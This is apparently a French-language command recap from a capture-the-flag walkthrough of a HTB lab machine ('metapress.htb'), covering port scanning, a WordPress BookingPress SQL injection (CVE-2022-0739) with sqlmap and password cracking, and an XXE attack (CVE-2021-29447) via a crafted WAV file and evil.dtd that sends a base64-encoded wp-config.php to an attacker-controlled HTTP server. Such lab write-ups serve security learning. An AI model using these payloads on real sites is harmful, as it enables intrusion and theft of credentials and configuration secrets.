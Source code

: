 

## 📝 Récapitulatif des commandes

### 🔍 Phase 1 : Reconnaissance réseau

```bash
# 1. Scan de ports complet
nmap -p- --min-rate=1000 -T4 10.10.11.186

# 2. Scan détaillé des services
nmap -p21,22,80 -sC -sV 10.10.11.186

# 3. Configuration DNS
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### 💉 Phase 2 : Exploitation SQLi (CVE-2022-0739)

```bash
# 1. Test manuel de l'injection (récupérer le nonce depuis la page Events)
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

# 2. Extraction automatisée avec sqlmap
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST \
--data "action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111" \
-p total_service --level=5 --risk=3 --dbs

# 3. Dump des utilisateurs WordPress
sqlmap -D blog -T wp_users --dump

# 4. Crackage des mots de passe
john --wordlist=/usr/share/wordlists/rockyou.txt wp_users.hash
# → Résultat: manager:partylikearockstar
```

### 🧩 Phase 3 : Exploitation XXE (CVE-2021-29447)

```bash
# 1. Créer le fichier evil.dtd
echo '<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM '"'"'http://10.10.14.50:8080/?p=%file;'"'"'>">' > evil.dtd

# 2. Créer le payload WAV malveillant
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.50:8080/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav

# 3. Démarrer le serveur HTTP
python3 -m http.server 8080

# 4. Upload payload.wav dans WordPress Media Library
# → Connexion avec manager:partylikearockstar
# → Upload via Media > Add New

# 5. Décoder le résultat base64
echo "BASE64_CONTENT" | base64 -d
# → Résultat: metapress.htb / 9NYS_ii@FyL_p5M2NvJ
```
